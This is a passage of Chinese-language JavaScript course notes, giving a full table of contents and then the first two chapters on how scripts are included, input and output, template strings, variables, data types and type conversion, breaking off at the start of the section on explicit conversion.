# JavaScript 学习笔记

> 本笔记由课程 `1.JavaScript基础`、`2.web APIs`、`3.JS进阶` 三部分的分散笔记合并整理而成，按 **4 个部分 / 19 章** 重新编排，未收录项目实战、作业与排错题；图片统一存放在 `images/` 目录，原有笔记文件未做改动。前三部分（第 1 ~ 18 章）与课堂知识点一一对应，第四部分（第 19 章）是课堂之外的常用扩展；其中 16.5、18.2.2 ~ 18.2.4、18.4 以及第 19 章的部分小节，是按配套进阶课程的 PPT 补入的课外内容。

> 此外，第 1、2、3、9、10、12、13 章及第 19 章的部分小节，对照语雀《JavaScript（ES6）》文档补齐了课堂笔记中未展开的知识点：JavaScript 概述与发展历程、弱类型、defer / async、基本类型与引用类型、类型检测、常用全局函数、位运算符、事件列表与代码触发事件、Cookie 与 XSS / CSRF、正则构造函数与 m 标志、生成器函数、函数式编程、面向对象补充与 Symbol 等。

> 还对照了课堂《JavaScript 基础》文档，补齐了 JavaScript 的常见用途与代码执行顺序、`var` 的问题、字符串拼接、`NaN` 的粘性与比较规则、`for...in` 与 `for...of` 的对比、DOM 事件规范的发展、`arguments` 的类数组细节与 4 种转数组写法、实例化执行过程、包装对象的临时创建、`WeakSet` / `WeakMap`、npm 常用命令与 `npx` / `npm exec` / `npm create`、对象字面量增强等细节。

> 阶段目标：掌握 JavaScript 语法与 Web APIs，能够独立完成网页交互效果的开发。
# 目录

**第一部分 · JavaScript 基础**

- [1. 初识 JavaScript](#ch01) — JavaScript 介绍、发展历程与语言特点、弱类型、引入方式（含动态加载与 defer / async）、Node 运行环境、注释与结束符、输入和输出、模板字符串、术语解释
- [2. 变量、常量与数据类型](#ch02) — 变量与常量的声明、数据类型与检测、字面量、隐式与显式类型转换（含 parseInt 与 parseFloat）、基本类型与引用类型、常用全局函数
- [3. 运算符与分支语句](#ch03) — 算术 / 赋值 / 比较 / 逻辑运算符（含逻辑中断）、位运算符与其他运算符、运算符优先级、表达式与语句、if 与 switch、断点调试
- [4. 循环语句](#ch04) — while 与 for 循环、中止循环、无限循环、循环嵌套与综合案例
- [5. 数组](#ch05) — 数组定义与索引、length 属性、增删数组单元的方法、sort 排序与冒泡排序
- [6. 函数](#ch06) — 声明与调用、形参实参、返回值、作用域、匿名函数
- [7. 对象与内置对象](#ch07) — 对象属性与方法、对象遍历、null、Math 数学对象

**第二部分 · Web APIs**

- [8. 初识 DOM](#ch08) — ECMAScript 与 Web APIs、DOM 树与节点、获取元素、内容与属性操作、间歇函数
- [9. 事件基础](#ch09) — 事件监听、事件绑定的三种方式、事件列表、鼠标 / 键盘 / 焦点 / 输入 / 页面加载与滚动与尺寸事件、事件对象、环境对象 this、回调函数
- [10. 事件进阶](#ch10) — 事件流与捕获冒泡、阻止冒泡与阻止默认行为、解绑事件、事件委托、元素尺寸与位置（offsetParent / offsetLeft / getBoundingClientRect）、代码触发事件（dispatchEvent / CustomEvent）
- [11. 日期对象与 DOM 节点](#ch11) — Date 对象与时间戳、节点的插入 / 删除 / 查找（含元素兄弟节点）、M 端触摸事件、JS 插件
- [12. BOM 与本地存储](#ch12) — window 对象、定时器、JS 执行机制、location / navigator / history / screen、Cookie、本地存储与 JSON、XSS 与 CSRF、map 与 join
- [13. 正则表达式](#ch13) — 正则基本使用（test 与 exec）、元字符、转义 / 分组 / 分支、替换与修饰符、构造函数与 m 标志、常用正则、正则插件、change 事件与类名判断

**第三部分 · JavaScript 进阶**

- [14. 作用域与闭包](#ch14) — 局部与全局作用域、作用域链、垃圾回收机制、闭包、变量提升
- [15. 函数进阶与解构赋值](#ch15) — 函数提升、参数默认值、动态参数与剩余参数、箭头函数、解构赋值、forEach / filter
- [16. 面向对象与内置构造函数](#ch16) — 构造函数、实例成员与静态成员、Object / Array / String / Number、属性描述符与 Object.defineProperty、浮点数精度问题
- [17. 原型与原型链](#ch17) — 编程思想、原型对象、constructor、对象原型、原型继承、原型链、instanceof 与 isPrototypeOf
- [18. 深浅拷贝与异常处理](#ch18) — 浅拷贝与深拷贝、throw 与 Error 类型、异常的传递、try...catch、this 的处理与四条绑定规则、call / apply / bind、防抖与节流的实现

**第四部分 · 课外常用扩展**

- [19. 课外常用扩展](#ch19) — 可选链 `?.` 与空值合并 `??`、Object 静态方法补充、Set 与 Map（含 WeakSet / WeakMap）、迭代器与可迭代对象（含生成器函数）、数组与字符串补充方法、数值与 Math 补充、class 语法、structuredClone 深拷贝、Promise 与 async / await、事件循环的宏任务与微任务、模块化 `import` / `export`（含统一导出）、npm 与 yarn（含常用命令、依赖类型、scripts、npx / npm exec / npm create、npm ci 与镜像源）、`Object.prototype` 的成员与重写情况、函数式编程、面向对象补充（工厂 / 封装 / 多态 / 组合）、Symbol、对象字面量的增强（属性 / 方法简写与计算属性名）

**附录**

- [附录 · 章节与原文件对照](#apx2) — 每一章对应的原文件路径

---

# 第一部分 · JavaScript 基础

<a id="ch01"></a>
## 1. 初识 JavaScript

> 目标：掌握 JavaScript 的引入方式，初步认识 JavaScript 的作用。

### 1.1 JavaScript 是什么

* HTML 是一个人的骨骼，CSS 是一个人的血肉，而 JS 是一个人的灵魂
* JavaScript 是运行在浏览器中的编程语言，负责实现网页中的交互与动态效果



JavaScript 是一种高级的、解释型的编程语言，代码以纯文本（`.js`）保存，运行时由 JavaScript 引擎逐行解析执行，不需要像 C++ 那样先编译成二进制文件；它既可以在浏览器中运行，也可以通过 Node.js 在服务器端运行。

在前端开发中，它主要运行在客户端（浏览器），用来实现人机交互效果，常见用途有：

* **网页特效**：监听用户的点击、滚动、输入等行为，让页面做出对应的反馈
* **表单验证**：在提交前校验表单数据的合法性（必填、格式、长度等）
* **数据交互**：从后台获取数据并渲染到页面，或把页面数据提交给后台
* **服务端编程**：借助 Node.js 在服务器上运行 JavaScript

#### 1.1.1 语言特点

1. **解释型语言**：不需要编译，由 JavaScript 引擎直接解释执行
2. **动态类型 / 弱类型**：变量类型在运行时确定，可以随时改变
3. **基于原型的面向对象**：不是传统的基于类的面向对象
4. **函数是一等公民**：函数可以作为参数传递，也可以作为返回值
5. **跨平台**：几乎所有现代浏览器和 Node.js 环境都支持
6. **支持多种编程范式**：面向对象、函数式编程都能写
7. **生态丰富**：npm 上有一百多万个开源包，避免“重复造轮子”

> 提示
>
> **Node.js** 是让 JavaScript 脱离浏览器、直接在服务器上运行的后台平台；**npm** 是 Node.js 的官方包管理器（Node Package Manager），作用类似 Java 的 Maven，可以在 <https://www.npmjs.com/> 上搜索、下载和管理开源包。

#### 1.1.2 发展历程

1. **诞生（1995 年）**：Netscape 公司的 Brendan Eich 在 10 天内设计完成，最初名为 LiveScript，最终定为 JavaScript
2. **浏览器战争（1990 年代末）**：微软的 JScript 与 Netscape 的 JavaScript 存在差异，兼容性问题严重
3. **标准化（1997 年）**：ECMAScript 第一版标准发布（ECMA-262），由 ECMA 国际组织标准化
4. **AJAX 革命（2005 年）**：Google Maps、Gmail 展示了 JavaScript 的能力，推动 Web 2.0 发展
5. **jQuery 时代（2006 年）**：jQuery 简化了 DOM 操作并抹平了浏览器差异
6. **ECMAScript 5（2009 年）**：引入严格模式、JSON 支持等现代特性
7. **Node.js 出现（2009 年）**：JavaScript 开始用于服务器端编程
8. **ECMAScript 6 / ES2015（2015 年）**：重大更新，引入 `class`、模块、箭头函数、Promise 等
9. **现代 JavaScript（2015 年至今）**：每年发布新标准（ES2016、ES2017……），React、Vue、Angular 等框架蓬勃发展

#### 1.1.3 弱类型

**弱类型**描述的是语言对变量类型检查的严格程度。JavaScript 是典型的弱类型语言，核心表现有：

* **变量没有固定的类型**：`let x = 10` 之后可以再写 `x = 'hello'`，不会报错；而 Java、C++ 这类强类型语言会直接编译报错
* **允许隐式类型转换**：`'10' - 5` 得到 `5`，`1 == true` 得到 `true`，`[] == false` 得到 `true`
* **宽松的类型检查**：比较时会先转换类型再比较，`1 == '1'` 为 `true`

```javascript
let x = 10 // x 是数字
x = 'hello' // x 变成字符串，没有报错
x = true // x 又变成布尔值

console.log('10' - 5) // 5，字符串 '10' 被转成数字
console.log(1 == true) // true，true 被转成 1
console.log([] == false) // true，[] 被转成 0，false 也被转成 0
```

**优点**：灵活、代码简洁、不需要显式声明类型，适合快速开发和小型脚本。

**缺点**：

* 容易隐藏 bug，例如 `add(10, '5')` 得到 `'105'`，本意可能是加法却变成了字符串拼接
* 可读性降低，别人不容易看出变量的类型
* 大型项目不易维护，类型混乱时调试困难

避免弱类型问题的方法：

1. 比较一律用 `===`，不用 `==`
2. 使用 TypeScript（JavaScript 的超集，增加静态类型检查）
3. 在关键位置手写类型检查，如 `if (typeof a !== 'number') throw new Error(...)`

> 提示
>
> 弱类型让 JavaScript 灵活但容易出错，TypeScript 的出现正是为了弥补这一点。

#### 1.1.4 JavaScript 的三大组成部分

JavaScript = **ECMAScript（核心语法）+ DOM（文档对象模型）+ BOM（浏览器对象模型）**

* **ECMAScript**：定义语言基础，包括变量、数据类型、运算符、流程控制、函数、面向对象等；由 ECMA 国际组织制定标准（ES5、ES6 / ES2015 等），是所有 JavaScript 引擎实现的基础规范
* **DOM**：Document Object Model，把 HTML 文档表示为节点树，提供查询和修改元素、添加 / 删除节点、处理事件、修改 CSS 样式等 API，顶级对象是 `document`
* **BOM**：Browser Object Model，提供与浏览器窗口交互的 API，核心对象有 `window`（顶级对象）、`navigator`（浏览器信息）、`location`（URL 操作）、`history`（浏览历史）、`screen`（屏幕信息）等。BOM 不是 W3C 标准，各浏览器实现有差异，但主要对象基本一致

> 术语
>
> 浏览器在 ECMAScript 之外提供的 DOM + BOM，通常合称 **Web APIs**。所以也常把 JavaScript 的组成说成 **ECMAScript（语言核心，规定变量、分支、循环、对象等基础语法）+ Web APIs（浏览器提供的操作页面和浏览器的接口）**。

### 1.2 引入方式

JavaScript 程序不能独立运行，需要被嵌入 HTML 中，然后由浏览器执行。通过 `script` 标签可以将 JavaScript 代码引入到 HTML 中，常用的方式有以下几种：

#### 1.2.1 内部方式

通过 `script` 标签包裹 JavaScript 代码。

```html
<script>
  alert('嗨，欢迎学习前端技术！')
</script>
```

#### 1.2.2 外部形式

一般将 JavaScript 代码写在独立的以 `.js` 结尾的文件中，然后通过 `script` 标签的 `src` 属性引入。

```javascript
// demo.js
document.write('嗨，欢迎学习前端技术！')
```

```html
<script src="demo.js"></script>
```

> 注意
>
> 如果 `script` 标签使用 `src` 属性引入了某个 `.js` 文件，那么标签内部的代码会被忽略。

```html
<script src="demo.js">
  // 此处的代码会被忽略掉！！！！
  alert(666);
</script>
```

#### 1.2.3 行内事件属性（不推荐）

直接在 HTML 元素的事件属性中写 JavaScript，例如：

```html
<button onclick="alert('按钮被点击')">点击</button>
```

* `click` 是**事件**，`onclick` 是**事件句柄**，事件句柄可以作为 HTML 标签的属性存在
* `onclick="sayHello()"` 中的 `sayHello()` 就是**回调函数**，页面加载到该标签时完成事件绑定
* 缺点：结构和行为混在一起，难以维护，已不推荐使用
* 这里仅作了解即可，但后面学 Vue 框架时会用到这种“在标签上写表达式 / 绑事件”的模式

> 知识点
>
> JavaScript 是一种基于**事件驱动**（Event-Driven）的编程语言：页面加载时把回调函数注册到事件上，用户操作触发事件后由浏览器负责调用回调函数。

#### 1.2.4 动态加载

用 JavaScript 动态创建 `script` 标签并按需加载脚本，可以提升性能：

```javascript
const script = document.createElement('script')
script.src = 'script.js'
document.body.appendChild(script)
```

#### 1.2.5 defer 与 async

这两个属性**只对外部脚本有效**：

```html
<script src="script1.js" defer></script>
<script src="script2.js" defer></script>

<script src="script1.js" async></script>
<script src="script2.js" async></script>
```

* **`defer` 延迟执行**：DOM 构建完成后，按顺序执行所有 `defer` 脚本，再触发 `DOMContentLoaded`，然后继续加载图片、视频等资源，最后触发 `load`。**执行时已经能获取页面中所有 DOM 元素**
* **`async` 异步加载**：下载完就执行，**不保证 DOM 是否就绪**，适合独立任务；多个 `async` 脚本不保证按书写顺序执行，谁先下载完谁先执行

> 提示
>
> 不加 `defer` / `async` 的外部脚本会**阻塞** HTML 解析，所以通常把 `<script>` 放在 `<body>` 末尾；放在 `<head>` 里时一般配合 `defer` 使用。

### 1.3 注释

通过注释可以屏蔽代码被执行，或者为代码添加备注信息，JavaScript 支持两种注释语法：

#### 1.3.1 单行注释

使用 `//` 注释单行代码。

```javascript
// 这种是单行注释的语法
// 一次只能注释一行

let num = 10 // 也可以写在代码右侧
```

#### 1.3.2 多行注释

使用 `/* */` 注释多行代码。

```javascript
/*
  更常见的多行注释是这种写法
  在这里可以任意换行
  多少行都可以
*/
```

> 提示
>
> VS Code 中单行注释的快捷键为 `Ctrl + /`。

### 1.4 结束符

在 JavaScript 中 `;` 代表一段代码的结束，多数情况下可以省略 `;`，使用回车（Enter）替代。

```javascript
alert(1);
alert(2);
alert(1)
alert(2)
```

> 经验
>
> 实际开发中有许多人主张书写 JavaScript 代码时省略结束符 `;`。

### 1.5 输入和输出

输入和输出可以理解为人和计算机的交互，用户通过键盘、鼠标等向计算机输入信息，计算机处理后再展示结果给用户。

#### 1.5.1 输出

| 语法 | 作用 |
| --- | --- |
| `document.write('要输出的内容')` | 向 `body` 内输出内容；如果写的是标签，会被解析成网页元素 |
| `alert('要输出的内容')` | 页面弹出警告对话框 |
| `console.log('控制台打印')` | 在控制台输出，程序员调试使用（按 F12 打开开发者工具查看） |

#### 1.5.2 输入

向 `prompt()` 输入任意内容会以弹窗形式出现在浏览器中，一般提示用户输入一些内容。注意 `prompt()` 的返回值是**字符串**，即使用户输入的是数字，后续参与运算前通常要转换类型（见 2.4）。

```html
<script>
  // 1. 三种常见的输出方式
  document.write('要输出的内容')
  alert('要输出的内容')
  console.log('控制台打印')

  // 2. 以弹窗形式提示用户输入姓名，注意这里的文字使用英文的引号
  prompt('请输入您的姓名:')
</script>
```

#### 1.5.3 JavaScript 代码的执行顺序

* 按 HTML 文档流的顺序执行 JavaScript 代码
* `alert()` 和 `prompt()` 会**跳过页面渲染先被执行**：它们会阻塞后续代码和页面渲染，等用户关闭弹窗后才继续
* 所以 `<script>` 写在 `<head>` 中时，执行到脚本时 `body` 里的元素还没渲染出来，`document.querySelector` 可能拿到 `null`。解决办法：把脚本放到 `body` 末尾、给外链脚本加 `defer`（见 1.2.5），或监听 `DOMContentLoaded`（见 9.2.5）

### 1.6 模板字符串

把变量拼接进字符串时，除了用 `+` 连接，还可以使用**模板字符串**：外面用反引号 `` ` ``（键盘上数字 1 左边那个键），里面用 `${变量名}` 直接嵌入变量。

```html
<body>
  <script>
    // let age = 20
    // 模板字符串 外面用`` 里面 ${变量名}
    // document.write(`我今年${age}岁了`)
    let uname = prompt('请输入您的姓名:')
    let age = prompt('请输入您的年龄:')
    // 输出
    document.write(`大家好，我叫${uname}， 我今年贵庚${age}岁了`)
  </script>
</body>
```

> 注意
>
> * 反引号不是单引号，`${ }` 里的内容会被当作 JavaScript 表达式求值，所以可以直接写运算，如 `${age + 1}`
> * 用 `+` 拼接时字符串和变量之间要反复加引号、加号，模板字符串比它更直观，变量多的时候尤其明显

### 1.7 术语解释

| 术语 | 解释 | 举例 |
| --- | --- | --- |
| 关键字 | 在 JavaScript 中有特殊意义的词汇 | `let`、`var`、`function`、`if`、`else`、`switch`、`case`、`break` |
| 保留字 | 在目前的 JavaScript 中没意义，但未来可能会具有特殊意义的词汇 | `int`、`short`、`long`、`char` |
| 标识（标识符） | 变量名、函数名的另一种叫法 | 无 |
| 表达式 | 能产生值的代码，一般配合运算符出现 | `10 + 3`、`age >= 18` |
| 语句 | 一段可执行的代码 | `if ()`、`for ()` |

### 1.8 在 Node 环境中运行 JavaScript

JavaScript 原本只能在浏览器中运行，装了 Node.js 之后就可以脱离浏览器，在命令行里直接执行。

1. 从官网 <https://nodejs.org/en/> 下载并安装 Node.js
2. 在终端执行 `node` 命令进入交互环境，直接输入 JavaScript 代码并立即看到结果；输入 `.exit` 退出
3. 把代码保存成 `.js` 文件，用 `node 文件名.js` 执行

```javascript
// demo.js
function add(a, b) {
  console.log(`${a} + ${b} = ${a + b}`)
}

add(10, 20)
```

```bash
node demo.js
# 10 + 20 = 30
```

> 注意
>
> Node 环境里没有 `document`、`window`、`alert` 这些浏览器提供的对象和函数，写 Web API 相关代码仍然要在浏览器中运行。

<a id="ch02"></a>
## 2. 变量、常量与数据类型

> 目标：理解变量存储数据的“容器”，能够区分不同的数据类型并实现数据类型的转换。

### 2.1 变量

变量是计算机中用来存储数据的“容器”，它可以让计算机变得有记忆，通俗的理解变量就是使用【某个符号】来代表【某个具体的数值】（数据）。

```javascript
// x 符号代表了 5 这个数值
x = 5

// 将用户输入的内容保存在 num 这个变量（容器）中
num = prompt('请输入一数字!')

// 通过 num 变量（容器）将用户输入的内容输出出来
alert(num)
document.write(num)
```

#### 2.1.1 声明

声明（定义）变量有两部分构成：声明关键字、变量名（标识）。

```javascript
// let 即关键字，所谓关键字是系统提供的专门用来声明（定义）变量的词语
// age 即变量的名称，也叫标识符
let age
```

关键字是 JavaScript 中内置的一些英文词汇（单词或缩写），它们代表某些特定的含义，如 `let` 的含义是声明变量的。

> 提示
>
> `let` 和 `var` 都是 JavaScript 中声明变量的关键字，推荐使用 `let` 声明变量！！！

#### 2.1.2 赋值

声明（定义）变量相当于创造了一个空的“容器”，通过赋值向这个容器中添加数据。

```javascript
// 声明变量 age
let age
// 赋值，将 18 这个数据存入了 age 这个“容器”中
age = 18
document.write(age)

// 也可以声明和赋值同时进行
let str = 'hello world!'
alert(str)
```

#### 2.1.3 关键字

以下是使用 `let` 时的注意事项：

* 允许声明和赋值同时进行
* 不允许重复声明
* 允许同时声明多个变量并赋值
* JavaScript 中内置的一些关键字不能被当做变量名

以下是使用 `var` 时的注意事项：

* 允许声明和赋值同时进行
* 允许重复声明
* 允许同时声明多个变量并赋值
* 只有函数作用域，没有块级作用域
* 可以先使用再声明（变量提升）

`var` 声明的问题：

* **没有块级作用域**：在 `if`、`for` 的 `{}` 里用 `var` 声明的变量，代码块外面照样能访问
* **可以先使用再声明**：声明之前的变量值是 `undefined`，容易把错误掩盖掉
* **允许重复声明**：后面的声明不会重新开辟空间。如果后面又赋了值，就把前面的值覆盖掉；如果只声明没赋值，前面的值保持不变，**不会变成 `undefined`**
* 还有变量提升、意外变成全局变量等问题（见 14.7）

```javascript
console.log(num) // undefined，而不是报错
var num = 10
// 相当于：
// var num
// console.log(num)
// num = 10

var a = 1
var a // 只声明没赋值，a 仍然是 1
console.log(a) // 1

var b = 1
var b = 2 // 再次声明并赋值，后面的值覆盖前面的
console.log(b) // 2
```

对比 `let`：重复声明、在声明前使用都会直接报错，问题能更早暴露出来。所以新代码推荐一律用 `let` / `const`，`var` 了解即可。

#### 2.1.4 变量名命名规则

关于变量的名称（标识符）有一系列的规则需要遵守：

* 只能是字母、数字、下划线、`$`，且不能用数字开头
* 字母区分大小写，如 `Age` 和 `age` 是不同的变量
* JavaScript 内部已占用的单词（关键字或保留字）不允许使用
* 尽量保证变量具有一定的语义，见字知义

> 注意
>
> 所谓关键字是指 JavaScript 内部使用的词语，如 `let` 和 `var`；保留字是指 JavaScript 内部目前没有使用的词语，但是将来可能会使用。

### 2.2 常量

* 概念：使用 `const` 声明的变量称为“常量”
* 使用场景：当某个变量永远不会改变的时候，就可以使用 `const` 来声明，而不是 `let`
* 命名规范：和变量一致

```javascript
const PI = 3.14
```

> 注意
>
> 常量不允许重新赋值，声明的时候必须赋值（初始化）。

### 2.3 数据类型

> 计算机世界中的万事万物都是数据。

计算机程序可以处理大量的数据，为了方便数据的管理，将数据分成了不同的类型。通过 `typeof` 关键字可以检测数据类型。

```javascript
// 检测 1 是什么类型数据，结果为 number
document.write(typeof 1)
```

#### 2.3.1 数值类型

即我们数学中学习到的数字，可以是整数、小数、正数、负数。

```javascript
let score = 100 // 正整数
let price = 12.345 // 小数
let temperature = -40 // 负数

document.write(typeof score) // 结果为 number
document.write(typeof price) // 结果为 number
document.write(typeof temperature) // 结果为 number
```

#### 2.3.2 字符串类型

通过单引号（`''`）、双引号（`""`）或反引号包裹的数据都叫字符串，单引号和双引号没有本质上的区别，推荐使用单引号。

注意事项：

* 无论单引号或是双引号必须成对使用
* 单引号 / 双引号可以互相嵌套，但是不能自己嵌套自己
* 必要时可以使用转义符 `\`，输出单引号或双引号

```javascript
let user_name = '小明' // 使用单引号
let gender = "男" // 使用双引号
let str = '123' // 看上去是数字，但是用引号包裹了就成了字符串了
let str1 = '' // 这种情况叫空字符串

document.write(typeof user_name) // 结果为 string
document.write(typeof gender) // 结果为 string
document.write(typeof str) // 结果为 string
```

**字符串拼接**

`+` 运算符可以实现字符串的拼接：

```javascript
console.log('我叫' + '刘德华') // 我叫刘德华

let uname = '刘德华'
let song = '忘情水'
console.log(uname + song) // 刘德华忘情水
```

> 提示
>
> 只要 `+` 两边有一个是字符串，另一个也会被转成字符串再拼接，所以 `1 + '2'` 得到的是 `'12'`。拼接变量更推荐用模板字符串（见 1.6）。

#### 2.3.3 布尔类型

表示肯定或否定时在计算机中对应的是布尔类型数据，它有两个固定的值 `true` 和 `false`，表示肯定的数据用 `true`，表示否定的数据用 `false`。

```javascript
let isCool = true // 是的
isCool = false // 不

document.write(typeof isCool) // 结果为 boolean
```

#### 2.3.4 undefined

未定义是比较特殊的类型，只有一个值 `undefined`，只声明变量不赋值的情况下，变量的默认值为 `undefined`，一般很少【直接】为某个变量赋值为 `undefined`。

```javascript
// 只声明了变量，并未赋值
let tmp
document.write(typeof tmp) // 结果为 undefined
```

> 注意
>
> JavaScript 中变量的值决定了变量的数据类型。

#### 2.3.5 null

`null` 表示空值，通常用于**显式地清空**一个变量：

```javascript
let empty = null
console.log(typeof empty) // 'object'  历史遗留问题：结果虽是 object，但仍归为基本类型
```

* `undefined`：声明了但没有赋值，是“系统默认的空”
* `null`：开发者主动赋值为空，是“人为给的空”

#### 2.3.6 Symbol 与 BigInt

* **`Symbol`（ES6）**：表示唯一的、不可变的值，通常用作对象属性的键，避免属性名冲突

```javascript
let sym = Symbol('unique')
console.log(Symbol('id') === Symbol('id')) // false，描述相同也是两个不同的值
```

* **`BigInt`（ES2020）**：表示任意精度的整数，用于超出 `Number` 安全范围的大整数，字面量后缀加 `n`

```javascript
let bigNum = 9007199254740991n
console.log(typeof bigNum) // 'bigint'
```

> 注意
>
> `BigInt` 不能和 `Number` 直接混合运算，`1n + 1` 会报错，需要先统一类型（如 `1n + 1n`）。

#### 2.3.7 基本类型与引用类型

JavaScript 的数据类型可以分为两大类：

* **基本数据类型（按值访问，存在栈内存中）**：`Number`、`String`、`Boolean`、`Undefined`、`Null`、`Symbol`、`BigInt`
* **引用数据类型（按引用访问，变量保存的是堆内存地址）**：`Object`，包括普通对象、数组、函数、`Date`、`RegExp`、包装对象等

| 特性 | 基本数据类型 | 引用数据类型 |
| --- | --- | --- |
| 存储方式 | 栈内存，直接存储值 | 堆内存，存储地址 |
| 可变性 | 不可变（值本身） | 可变（可以修改属性） |
| 比较 | 比较值，`1 === 1` 为 `true` | 比较地址，`{} === {}` 为 `false` |
| 赋值 | 复制值，互不影响 | 复制地址，两个变量指向同一个对象 |

```javascript
// 基本类型：复制值
let a = 10
let b = a
b = 20
console.log(a) // 10

// 引用类型：复制地址
let obj1 = { age: 10 }
let obj2 = obj1
obj2.age = 20
console.log(obj1.age) // 20，两个变量指向同一个对象
```

#### 2.3.8 类型检测方法

**`typeof`**：适合检测基本类型（`null` 除外），对数组、普通对象都返回 `'object'`。它有两种语法形式，效果完全一样：

```javascript
typeof x // 作为运算符使用
typeof(x) // 像函数一样调用
```

结果是以下 8 个小写字符串之一：

```javascript
typeof 42 // 'number'
typeof 'hello' // 'string'
typeof true // 'boolean'
typeof undefined // 'undefined'
typeof 10n // 'bigint'
typeof Symbol() // 'symbol'
typeof function () {} // 'function'
typeof {} // 'object'
typeof [] // 'object'（注意！）
typeof null // 'object'（历史遗留问题）
```

**`instanceof`**：判断对象是否是某个构造函数的实例，**不适用于基本类型**：

```javascript
console.log({} instanceof Object) // true
console.log([] instanceof Array) // true
console.log(new Set() instanceof Set) // true
```

**`Array.isArray()`**：专门检测数组，比 `instanceof` 更可靠：

```javascript
Array.isArray([]) // true
```

**`Object.prototype.toString.call()`**：最通用，返回 `[object Type]`，能区分 `null`、数组等：

```javascript
Object.prototype.toString.call(1) // '[object Number]'
Object.prototype.toString.call('jack') // '[object String]'
Object.prototype.toString.call(null) // '[object Null]'
Object.prototype.toString.call(Symbol()) // '[object Symbol]'
Object.prototype.toString.call(10n) // '[object BigInt]'
Object.prototype.toString.call([]) // '[object Array]'
Object.prototype.toString.call({}) // '[object Object]'
```

### 2.4 类型转换

在实际编程的过程中，不同数据类型之间存在着转换的关系。

#### 2.4.1 隐式转换

某些运算符被执行时，系统内部自动将数据类型进行转换，这种转换称为隐式转换。

基本规则：

* `+` 号两边只要有一个是字符串，就会把另一个也转成字符串再拼接
* 除 `+` 以外的运算符（`-`、`*`、`/` 等）都会把数据转成数字类型再计算
* `+` 也可以作为正号使用（如 `+'123'`），这时会把字符串转换成数字



```javascript
let num = 13 // 数值
let num2 = '2' // 字符串

// 结果为 132
// 原因是将数值 num 转换成了字符串，相当于 '13'
// 然后 + 将两个字符串拼接到了一起
console.log(num + num2)

// 结果为 11
// 原因是将字符串 num2 转换成了数值，相当于 2
// 然后数值 13 减去 数值 2
console.log(num - num2)

let a = prompt('请输入一个数字')
let b = prompt('请再输入一个数字')

alert(a + b)
```

> 提示
>
> 数据类型的隐式转换是 JavaScript 的特征，后续学习中还会遇到。

#### 2.4.2 显式转换

编写程序时过度依靠系统内部的隐式转换是不严谨的，因为隐式转换规律并不清晰，大多是靠经验总结的规律。为了避免因隐式转换带来的问题，通常根据逻辑需要对数据进行显式转换。



**Number**

